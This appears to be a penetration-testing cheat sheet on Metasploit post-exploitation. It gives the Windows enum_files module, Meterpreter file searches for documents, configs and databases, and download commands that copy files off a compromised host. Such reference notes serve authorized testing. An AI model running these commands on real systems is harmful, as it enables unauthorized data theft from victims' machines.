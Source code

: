 # Metasploit

## Search specific file extensions

### Post Module

#### Windows

- MSF Windows Gather Generic File Collection Post Module

```
msf > use post/windows/gather/enum_files

msf post(windows/gather/enum_files) > options

Module options (post/windows/gather/enum_files):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_GLOBS   *.config         yes       The file pattern to search for in a filename
   SEARCH_FROM                   no        Search from a specific location. Ex. C:\
   SESSION                       yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(windows/gather/enum_files) > set file_globs *.txt or *.zip or *.tar.* or *.tgz or *.cab or *.rar or *.pdf or *.doc? or *.ppt? or *.pps? or *.pot? or *.xls? or *.config* or *.sql or *.db

msf post(windows/gather/enum_files) > set search_from <C:\\path\\to\\directory>

msf post(windows/gather/enum_files) > set session <session_id>

msf post(windows/gather/enum_files) > run
```

### Meterpreter

```
meterpreter > search -d [<drive_letter>:]/path/to/directory/ -f *.txt -f *.zip -f *.tar.* -f *.tgz -f *.cab -f *.rar -f *.pdf -f *.doc? -f *.ppt? -f *.pps? -f *.pot? -f *.xls? -f config* -f *.sql -f *.db -f *.png -f *.jpg -f *.jpeg
```

## Download Files

```
meterpreter > download -h
Usage: download [options] src1 src2 src3 ... destination

Downloads remote files and directories to the local machine.

OPTIONS:

    -a   Enable adaptive download buffer size
    -b   Set the initial block size for the download
    -c   Resume getting a partially-downloaded file
    -h   Help banner
    -l   Set the limit of retries (0 unlimits)
    -r   Download recursively
    -t   Timestamp downloaded files
```

- Download single file.

`meterpreter > download [<drive_letter>:]/path/to/remote/file.txt /path/to/local/directory/`

- Download multiple files using wildcard.

`meterpreter > download [<drive_letter>:]/path/to/remote/*.txt /path/to/local/directory/`

- Download multiple files in a directory recursively.

`meterpreter > download -r [<drive_letter>:]/path/to/remote/directory/ /path/to/local/directory/`